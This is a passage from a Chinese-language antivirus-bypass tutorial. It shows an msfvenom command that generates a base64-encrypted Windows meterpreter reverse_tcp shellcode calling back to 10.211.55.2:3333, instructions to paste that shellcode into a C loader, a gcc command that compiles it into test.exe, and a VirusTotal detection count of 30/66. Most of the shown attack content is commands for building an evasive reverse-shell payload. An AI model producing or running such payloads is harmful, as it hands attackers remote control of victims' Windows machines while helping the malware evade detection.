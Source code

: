 ```
```

使用msf生成base64编码的shellcode

```
msfvenom -p  windows/meterpreter/reverse_tcp --encrypt base64  lhost=10.211.55.2 lport=3333  -f c > shell.c
```

把`shell.c`的内容复制到上面`shellcode.c`文件中。

使用gcc进行编译
```
gcc shellcode.c base64.c -o test.exe
```

![37c6e53194d3a8bf88b49bd2af75c712](images/2020.03-bypass-03/33.png)

virustotal.com中30/66个报毒
